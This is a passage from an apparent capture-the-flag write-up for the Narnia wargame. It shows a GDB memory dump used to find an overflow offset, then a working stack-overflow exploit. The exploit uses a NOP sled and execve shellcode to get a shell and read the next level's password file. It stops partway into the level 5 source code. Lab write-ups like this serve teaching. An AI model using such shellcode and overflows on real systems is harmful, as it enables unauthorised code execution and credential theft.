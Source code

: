 0xffffd3e8:	0x6e	0x61	0x61	0x61	0x6f	0x61	0x61	0x61
0xffffd3f0:	0x70	0x61	0x61	0x61	0x71	0x61	0x61	0x61
0xffffd3f8:	0x72	0x61	0x61	0x61	0x73	0x61	0x61	0x61
0xffffd400:	0x74	0x61	0x61	0x61	0x75	0x61	0x61	0x61
0xffffd408:	0x76	0x61	0x61	0x61	0x77	0x61	0x61	0x61
0xffffd410:	0x78	0x61	0x61	0x61	0x79	0x61	0x61	0x61
0xffffd418:	0x7a	0x61	0x61	0x62	0x62	0x61	0x61	0x62
0xffffd420:	0x63	0x61	0x61	0x62	0x64	0x61	0x61	0x62
0xffffd428:	0x65	0x61	0x61	0x62	0x66	0x61	0x61	0x62
0xffffd430:	0x67	0x61	0x61	0x62	0x68	0x61	0x61	0x62
0xffffd438:	0x69	0x61	0x61	0x62	0x6a	0x61	0x61	0x62
0xffffd440:	0x6b	0x61	0x61	0x62	0x6c	0x61	0x61	0x62
0xffffd448:	0x6d	0x61	0x61	0x62	0x6e	0x61	0x61	0x62
0xffffd450:	0x6f	0x61	0x61	0x62	0x70	0x61	0x61	0x62
0xffffd458:	0x71	0x61	0x61	0x62	0x72	0x61	0x61	0x62
0xffffd460:	0x73	0x61	0x61	0x62	0x74	0x61	0x61	0x62
0xffffd468:	0x75	0x61	0x61	0x62	0x76	0x61	0x61	0x62
0xffffd470:	0x77	0x61	0x61	0x62	0x78	0x61	0x61	0x62
0xffffd478:	0x79	0x61	0x61	0x62	0x7a	0x61	0x61	0x63
0xffffd480:	0x62	0x61	0x61	0x63	0x63	0x61	0x61	0x63
0xffffd488:	0x64	0x61	0x61	0x63	0x65	0x61	0x61	0x63
0xffffd490:	0x66	0x61	0x61	0x63	0x67	0x61	0x61	0x63
0xffffd498:	0x68	0x61	0x61	0x63	0x69	0x61	0x61	0x63
0xffffd4a0:	0x6a	0x61	0x61	0x63	0x6b	0x61	0x61	0x63
0xffffd4a8:	0x6c	0x61	0x61	0x63	0x6d	0x61	0x61	0x63
0xffffd4b0:	0x6e	0x61	0x61	0x63	0x6f	0x61	0x61	0x63
0xffffd4b8:	0x70	0x61	0x61	0x63	0x71	0x61	0x61	0x63
```
Alright so we can see our crash happens when the ```eip``` reaches address ```0xffffd4bc``` from the stack. Our shellcode has 25 bytes so let's choose an estimate address where to force the execution to... say ```0xffffd400``` looks decent. Alright, now let's try out a payload!
```
narnia4@narnia:/narnia$ ./narnia4 $(python -c 'print (230) * "\x90" + "\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xf1\x89\xf2\x31\xc0\xb0\x0b\xcd\x80" + 9 * "\x90" + "\xac\xd4\xff\xff"')
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
```

## Level 5 -> 6 ##
```
narnia5@narnia:~$ cd /narnia/
narnia5@narnia:/narnia$ ./narnia5 
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffffd610)
narnia5@narnia:/narnia$ cat narnia5.c 
```
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
